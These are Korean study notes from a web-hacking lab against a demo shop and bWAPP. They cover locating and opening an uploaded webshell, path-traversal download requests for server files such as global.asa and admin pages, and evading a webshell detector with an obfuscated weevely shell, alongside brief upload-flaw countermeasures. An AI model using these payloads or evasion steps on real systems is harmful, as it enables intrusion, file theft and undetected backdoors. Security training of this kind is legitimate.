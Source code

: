 ### 웹 절대 경로 찾기 실습
* http://210.95.67.235:8183/ 에서 진행
1. Q&A 게시판에 글 올리기
2.  파일 경로 ` /upload_file ` 발견
3. 파일이 있는 경로 짐작해보기   
    ` http://210.95.67.235:8183/demoshop/shop_board/shop_board_list.asp? `   
    ` http://210.95.67.235:8183/demoshop/upload_file `    
    ` http://210.95.67.235:8183/demoshop/shop_board? `
    ` http://210.95.67.235:8183/demoshop/shop_board/upload_file `
4. 401 디렉터리 나열 거부 발견!
5. 웹쉘 절대경로 진입
` http://210.95.67.235:8183/demoshop/shop_board/upload_file/shell(40).asp `

### 파일 업로드 취약점 대응방안 
1. 화이트 리스트 방식으로 확장자 검증 -> 이미지 업로드이면 `jpg`, `png`만 허용
2. 업로드 경로에 대한 검증
    * `board_idx=5&path=2` 이런건 서버사이드에서 조회 
    * ` (path=??, filename=??)` DBMS에서 조회
3. 파일 업로드되는 경로에 실행 권한 제거 (최소 권한 원칙)

파일 업로드 취약점은 사실 찾기 힘들다..

## 파일 다운로드 취약점
중요 파일을 다운로드 받을 수 있는 취약점


` /demoshop/shop_board/shop_download.asp?strFileName=shell(46).asp&f_path=upload_file `

` /demoshop/shop_board/shop_download.asp?strFileName=../shop_download.asp&f_path=upload_file `

` http://210.95.67.235:8183/demoshop/admin/admin_login.asp?strFileName=admin_login.asp&f_path=../../upload_file `

` /demoshop/shop_board/shop_download.asp?strFileName=../../admin_login.asp&f_path=upload_file `

` GET /demoshop/shop_board/shop_download.asp?strFileName=/admin/admin_login.asp&f_path=../admin HTTP/1.1 `

` GET /demoshop/shop_board/shop_download.asp?strFileName=global.asa&f_path=../../ HTTP/1.1 `

## 웹쉘 탐지 솔루션
* [웹셀 탐지 솔루션 링크](https://github.com/emposha/PHP-Shell-Detector)
1. ` cp /home/bee/PHP-Shell-Detector-master.zip /var/www/ `
2. ` unzip PHP-Shell-Detector-master.zip `
3. 웹쉘 탐지 솔루션 접속 -> http://192.168.113.130/PHP-Shell-Detector-master
4. `shell.php` -> admin/protect로 로그인
5. `vim shelldetect.php` 하고 scan 부분에 경로 넣기
6. kali에서 ` /usr/share/webshells/php/ `에 있는 웹쉘을 bWAPP unrestricted_file_uplad.php에 업로드

### 웹쉘 탐지 방지하는 법
* db 정보? base64
* ` /var/www/PHP-Shell-Detector-master# cat shelldetect.db | more ` 
* https://www.base64decode.org/ 여기서 디코딩
* 일치하면 웹쉘 탐지 솔루션에서 positve라고 뜸
* 웹쉘은 어떻게 탐지하는가?
    * 해시값으로 검사 (속도를 빠르게 하기 위해 )
    * 없으면 문자열으로 검사 (의심되는 함수)
        * PHP 웹쉘 주요 함수 System, Exec, Passthru 등

### 웹쉘 탐지 솔루션 우회 방법   
`sudo weevely generate hacker shell.php` -> hacker 패스워드를 난독화하는 php 코드   
`md5sum shell.php` -> 난독화 코드 생성 -> `4458d9e75e5f7d7c0fe695f13039d61e  shell.php `   
 
이 `shell.php` 를 웹쉘 방지 솔루션에 올리면 탐지를 못함